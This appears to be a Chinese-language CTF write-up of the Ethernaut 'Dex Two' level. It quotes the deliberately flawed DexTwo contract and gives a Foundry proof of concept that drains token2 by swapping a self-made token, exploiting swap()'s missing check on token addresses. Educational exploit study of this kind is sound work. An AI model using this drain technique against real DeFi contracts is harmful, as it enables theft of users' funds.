

> This level will ask you to break `DexTwo`, a subtly modified `Dex` contract from the previous level, in a different way.
>
> You need to drain all balances of token1 and token2 from the `DexTwo` contract to succeed in this level.
>
> You will still start with 10 tokens of `token1` and 10 of `token2`. The DEX contract still starts with 100 of each token.
>
>  Things that might help:
>
> - How has the `swap` method been modified?


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts-08/token/ERC20/IERC20.sol";
import "openzeppelin-contracts-08/token/ERC20/ERC20.sol";
import "openzeppelin-contracts-08/access/Ownable.sol";

contract DexTwo is Ownable {
    address public token1;
    address public token2;

    constructor() {}

    function setTokens(address _token1, address _token2) public onlyOwner {
        token1 = _token1;
        token2 = _token2;
    }

    function add_liquidity(address token_address, uint256 amount) public onlyOwner {
        IERC20(token_address).transferFrom(msg.sender, address(this), amount);
    }

    function swap(address from, address to, uint256 amount) public {
        require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
        uint256 swapAmount = getSwapAmount(from, to, amount);
        IERC20(from).transferFrom(msg.sender, address(this), amount);
        IERC20(to).approve(address(this), swapAmount);
        IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
    }

    function getSwapAmount(address from, address to, uint256 amount) public view returns (uint256) {
        return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
    }

    function approve(address spender, uint256 amount) public {
        SwappableTokenTwo(token1).approve(msg.sender, spender, amount);
        SwappableTokenTwo(token2).approve(msg.sender, spender, amount);
    }

    function balanceOf(address token, address account) public view returns (uint256) {
        return IERC20(token).balanceOf(account);
    }
}

contract SwappableTokenTwo is ERC20 {
    address private _dex;

    constructor(address dexInstance, string memory name, string memory symbol, uint256 initialSupply)
        ERC20(name, symbol)
    {
        _mint(msg.sender, initialSupply);
        _dex = dexInstance;
    }

    function approve(address owner, address spender, uint256 amount) public {
        require(owner != _dex, "InvalidApprover");
        super._approve(owner, spender, amount);
    }
}
```


这里的点是我们可以用自己的token，因为swap那儿没有校验只能是token1和token2之间的，:)


~

```
https://dev.to/nvnx/ethernaut-hacks-level-23-dex-two-4424
```


foundry写poc：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";
import "openzeppelin-contracts/contracts/access/Ownable.sol";
import {Test, console} from "forge-std/Test.sol";
import "../src/Dex2.sol";

contract ExploitDex2 is Test{
    SwappableTokenTwo myToken;
    SwappableTokenTwo token1;
    SwappableTokenTwo token2;

    address user = address(0x123);
    DexTwo dex;

    function showBalances() public view {
        console.log("\n===========================================================");
        console.log("User token1 balance:", IERC20(token1).balanceOf(user));
        console.log("User token2 balance:", IERC20(token2).balanceOf(user));
        console.log("Dex token1 balance:", IERC20(token1).balanceOf(address(dex)));
        console.log("Dex token2 balance:", IERC20(token2).balanceOf(address(dex)));
    }

    function setUp() public {
        // 部署 token1 和 token2
        token1 = new SwappableTokenTwo(address(this), "Token1", "TK1", 1000000);
        token2 = new SwappableTokenTwo(address(this), "Token2", "TK2", 1000000);
        myToken = new SwappableTokenTwo(address(dex), "MyToken", "MYT", 1000000);

        // 部署 DexTwo
        dex = new DexTwo();
        dex.setTokens(address(token1), address(token2));

        // 为 ExploitDex2 提供初始代币并授权给 dex
        token1.transfer(address(this), 100);
        token2.transfer(address(this), 100);
        myToken.transfer(address(this), 100);

        token1.approve(address(dex), 100);
        token2.approve(address(dex), 100);
        myToken.approve(address(dex), 100);

        // 添加流动性
        dex.add_liquidity(address(token1), 100);
        dex.add_liquidity(address(token2), 100);
        dex.add_liquidity(address(myToken), 100);

        // 为 user 提供初始代币
        token1.transfer(user, 10);
        token2.transfer(user, 10);
        myToken.transfer(user, 100);

        showBalances();
    }

    function test_Swap() public {
        vm.startPrank(user);
        IERC20(myToken).approve(address(dex), 100);
        dex.swap(address(myToken), address(token2), 100);
        showBalances(); // token2 is **0**
    }
}
```


